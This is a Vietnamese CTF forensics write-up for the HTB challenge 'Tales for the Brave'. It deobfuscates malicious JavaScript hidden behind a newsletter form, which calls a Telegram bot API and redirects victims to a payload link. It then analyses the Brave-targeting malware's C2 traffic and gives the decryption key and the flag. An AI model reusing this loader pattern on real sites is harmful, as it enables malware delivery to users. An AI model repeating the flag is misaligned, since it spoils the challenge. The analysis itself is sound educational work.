# _Tales for the Brave_ _(Forensics)_

- Mới vào mình nhận được 1 đoạn `javascript` bị obsfuscate



Tiến hành  `deobf` bằng https://lelinhtinh.github.io/de4js/



Giải thích sơ qua chút:

- Hàm `_$_9b39` có chức năng tạo 1 mảng chứa tên hàm cần gọi ( mình dùng `chatgpt` viết python decode để xem các hàm nó gọi là gì)
```python
def deobfuscate(n: str, w: int):
    r = len(n)
    j = list(n)

    for e in range(r):
        d = w * (e + 439) + (w % 33616)
        a = w * (e + 506) + (w % 38477)
        v = d % r
        p = a % r
        # swap j[v] and j[p]
        j[v], j[p] = j[p], j[v]
        w = (d + a) % 3525268

    c = chr(127)
    q = ''
    m = '%'
    t = '#1'
    o = '%'
    u = '#0'
    k = '#'

    joined = q.join(j)
    step1 = joined.replace(m, c)
    step2 = step1.replace(t, o)
    step3 = step2.replace(u, k)
    final = step3.split(c)

    return final

# === CHẠY HÀM ===
output = deobfuscate("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad", 1198358)

# === IN KẾT QUẢ ===
for i, item in enumerate(output):
    print(f"[{i}] = {item}")
```


`Ví dụ: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]] = CryptoJS.enc.Base64.parse`

- Tiếp theo, đoạn `ciphertext` bị `AES encrypt` và `Base64 encode` nên gọi các hàm ra để giải mã rồi dùng `eval` để thực thi trực tiếp

- `Key` và `IV` được lấy tại đây


Dùng python để decrypt toàn bộ (hoặc có thể dùng `Java compiler online`) nhưng mình cũng không hiểu sao có một số chỗ bị lỗi khi decrypt hmm



Tiếp tục dùng `de4js` để deobf



Chức năng nó khá tương tự đoạn `java` vừa nãy và sau khi deobf toàn bộ thì có được đoạn mã sau:

```javascript
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
      return emailField.classList.remove("shake");
    }, 500);
  }
  if (!isValid) {
    return;
  }
  const emailValue = emailField.value;
  const specialKey = emailValue.split("@")[0];
  const desc = parseInt(descriptionField.value, 10);
  f(specialKey, desc);
});

function f(oferkfer, icd) {
  const channel_id = -1002496072246;
  var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
  if (oferkfer === G(_$_5975[1]) && 
        CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === _$_5975[8]) {
    var decrypted = CryptoJS.RC4Drop.decrypt(
            enc_token, 
            CryptoJS.enc.Utf8.parse(oferkfer), 
            { drop: 192 }
        ).toString(CryptoJS.enc.Utf8);
    var HOST = "https://api.telegram.org/bot"+ decrypted;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        const resp = JSON.parse(xhr.responseText);
        try {
          const link = resp.result.text;
          window.location.replace(link);
        } catch (error) {
          alert("Form submitted!");
        }
      }
    };
    xhr.open("GET", HOST + "/" + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
    xhr.send(null);
  } else {
    alert("Form submitted!");
  }
}
var sequence = [];

function l() {
  sequence.push(this.id);
}
var checkboxes = document.querySelectorAll("input[class=cb]");
for (var i = 0; i < checkboxes.length; i++) {
  checkboxes[i].addEventListener("change", l);
}
```
Tóm tắt code:

- Đoạn code trên giải mã một `enc_token` là `nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==` bằng `RC4 drop` với key được xử lí thông qua hàm `G()`
  
- Tham số được truyền vào trong hàm `G()` là `s3cur3k3y`
  

Ta tiến hành decode `Key` bằng `python`

```python
import hashlib
import base64
```python
# G như trước
def base36encode(number):
    if number == 0:
        return '0'
    alphabet = '0123456789abcdefghijklmnopqrstuvwxyz'
    result = ''
    while number > 0:
        number, i = divmod(number, 36)
        result = alphabet[i] + result
    return result.lower()

def G(_):
    def part1():
        args = [106, 167, 103, 163, 98]
        o = 43
        return ''.join(chr(r - o - 7 - i) for i, r in enumerate(reversed(args)))

    def part2():
        return base36encode(1354343)

    def part3():
        return ''.join(chr(ord(c) - 13) for c in base36encode(21))

    def part4():
        return base36encode(4)

    def part5():
        return ''.join(chr(ord(c) - 39) for c in base36encode(32))

    def part6():
        return ''.join(chr(ord(c) - 13) for c in base36encode(381))

    def part7():
        args = [216, 153, 153, 213, 187]
        o = 42
        return ''.join(chr(r - o - 60 - i) for i, r in enumerate(reversed(args)))

    return part1() + part2() + part3() + part4() + part5() + part6() + part7()

# Giá trị đầu vào cần xác thực
special = 's3cur3k3y'
expected = G(special)

# In ra kết quả của G
print(f"G('{special}') =", expected)
```


Có được key là `0p3r4t10n_4PT_Un10n`, lấy key đó giải mã đoạn `enc_token` ta được một token của một `botTelegram`



Mình dùng tool [này](https://github.com/soxoj/telegram-bot-dumper) để dump toàn bộ `message` của bot

`Bot` gửi cho mình 1 file `.zip` trong `media` và kèm cả `pass` để giải nén. Nó chú thích thêm là chỉ nhắm tới `Brave Browser users` nên tiến hành tải trình duyệt `Brave` về



Đến đây mình phải tham khảo `writeups` thì mới làm được tiếp, nôm na thì reverse malware sẽ không khả thi nên tiến hành debug động bằng cách thực thi trực tiếp trên máy ảo và bật `wireshark` để bắt gói tin



Nó thực hiện truy vấn `DNS` đến tên miền `zolsc2s65u.htb` trên port `31337`, giờ ta sẽ đi fake `IP` bằng địa chỉ loopback là `127.0.0.1` và `domain` bằng cách thêm chúng vào `/etc/hosts`



Sau đó khởi chạy một server http



Tiến hành mở chạy lại `malware` và mở `wireshark`



Thấy được 1 `HTTP Post.Request`, trong đó có 1 đoạn `Bearer Token`



Đây là một `JWT (Json Web Token)` dùng để xác thực người dùng, dùng https://jwt.io/ để decode token



Trong phần `auth` có một đoạn base64, tiến hành decode là nhận được flag



`Flag: HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}`


